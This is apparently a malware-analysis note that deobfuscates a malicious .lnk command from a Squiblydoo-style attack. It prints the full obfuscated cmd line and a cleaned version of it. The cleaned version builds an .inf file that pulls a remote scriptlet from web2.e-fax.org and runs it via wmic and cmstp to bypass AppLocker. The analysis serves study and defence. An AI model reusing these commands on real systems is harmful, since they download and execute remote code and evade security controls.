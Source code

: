 

# Multi-stage Squiblydoo variant

---

## step 1

the `.lnk` file has a cmd command but it looks encoded/obfuscated.
- the cmd contains two distinct sections. 
- The first part `creates a “RANDOM.inf” file` 
  - (RANDOM is a random number generated via %random% command)
- the second part starts it using `WMI` and `cmstp`
  - cmstp is often used to bypass Applocker

original

```c
“C:\Windows\System32\cmd.exe” /v /c set “EhWLDvbm34801=Items”
&& call set “EhWLDvbm4162=%EhWLDvbm34801:~4,1%”
&& (for %e in (c) do @set “EhWLDvbm4796=%~e”)
&& !EhWLDvbm4162!et “EhWLDvbm8561=na”
&& !EhWLDvbm4162!et “EhWLDvbm85714=a”
&& !EhWLDvbm4162!et “EhWLDvbm13835=t”
&& !EhWLDvbm4162!et “EhWLDvbm9306=d”
&& call !EhWLDvbm4162!et “EhWLDvbm1449=%ran!EhWLDvbm9306!om%.inf”
&& call !EhWLDvbm4162!et “EhWLDvbm9442=%app!EhWLDvbm9306!ata%\Micro!EhWLDvbm4162!oft\!EhWLDvbm1449!”
&& !EhWLDvbm4162!et “EhWLDvbm59779=.”
&& !EhWLDvbm4162!et “EhWLDvbm19532=“^”
&& (for %r in (“[ver!EhWLDvbm4162!ion]” “!EhWLDvbm4162!ig!EhWLDvbm8561!ture=$Window!EhWLDvbm4162! NT$” “[!EhWLDvbm9306!e!EhWLDvbm4162!tinationdirs]” “2A436=01” “[!EhWLDvbm9306!efaultin!EhWLDvbm4162!tall_singleu!EhWLDvbm4162!er]” “UnRegis!EhWLDvbm13835!erOCXs=47E0” “!EhWLDvbm9306!elfiles=2A436" “[47E0]” “%11%\%EhWLDvbm55506%crO%EhWLDvbm59234%j,NI,%EhWLDvbm69079%%EhWLDvbm23745%%EhWLDvbm23745%p%EhWLDvbm23092%%EhWLDvbm20494%%EhWLDvbm20494%web2!EhWLDvbm59779!e-fax!EhWLDvbm59779!%EhWLDvbm2079%/gmaps!EhWLDvbm59779!txt” “[2A436]” “!EhWLDvbm1449!” “[!EhWLDvbm4162!!EhWLDvbm13835!rings]” “EhWLDvbm23745=t” “EhWLDvbm69079=h” “EhWLDvbm23092=:” “EhWLDvbm55506=s” “EhWLDvbm20494=/” “EhWLDvbm59234=b” “EhWLDvbm2079=org” “!EhWLDvbm4162!ervicen!EhWLDvbm85714!me=' ‘” “!EhWLDvbm4162!hortsvcn!EhWLDvbm85714!me=’ ’“) do @e!EhWLDvbm4796!ho %~r)>“!EhWLDvbm9442!
“&& !EhWLDvbm4162!t!EhWLDvbm85714!rt “” /MIN wmi!EhWLDvbm4796! proce!EhWLDvbm4162!s call !EhWLDvbm4796!rea!EhWLDvbm13835!e “cm!EhWLDvbm4162!!EhWLDvbm13835!p /ns /!EhWLDvbm4162! /su !EhWLDvbm9442!”
```

---

## chop

- `&&` runs the second command on the line when the first command comes back successfully
- `%variablename%` a inbuilt or user set environmental variable
- `!variablename!` a user set environmental variable expanded at execution time, turned with SetLocal EnableDelayedExpansion command


%Items:~4,1%=s

%~e=c


```c“C:\Windows\System32\cmd.exe” /v /c set “Items=Items” 
&& call set “EhWLDvbm4162=%Items:~4,1%=s” 
&& (for %e in (c) do @set “EhWLDvbm4796=%~e=c”)
&& set “EhWLDvbm8561=na” 
&& set “EhWLDvbm85714=a” 
&& set “EhWLDvbm13835=t” 
&& set “EhWLDvbm9306=d” 
&& call set “EhWLDvbm1449=%random%.inf” 
&& call set “EhWLDvbm9442=%appdata%\Microsoft\%random%.inf” 
&& set “EhWLDvbm59779=.” 
&& set “EhWLDvbm19532=“^” 
&& (for %r in (
    “[version]” 
    “signature=$Windows NT$” 
    “[destinationdirs]” 
    “[defaultinstall_singleuser]” 
    “[UnRegisterOCXs]” 
    “%11%\scrObj,NI,http://web2.e-fax.org/gmaps.txt” 
    “[delfiles]” 
    “%random%.inf” 
    “[strings]” 
    “EhWLDvbm23745=t” 
    “EhWLDvbm69079=h” 
    “EhWLDvbm23092=:” 
    “EhWLDvbm55506=s” 
    “EhWLDvbm20494=/” 
    “EhWLDvbm59234=b” 
    “EhWLDvbm2079=org” 
    “servicename=' ‘” 
    “shortsvcname=’ ’“
    ) do @echo %~r)>“%appdata%\Microsoft\%random%.inf“
&& start “” /MIN wmic process call create “cmstp /ns /s /su %appdata%\Microsoft\%random%.inf”
```




---

ref
- [Analysis of a Multi-stage Squiblydoo variant](https://blog.n0p.me/2020/10/2020-10-13-malware-applocker-bypass/#stage-2-updatetxt)





.

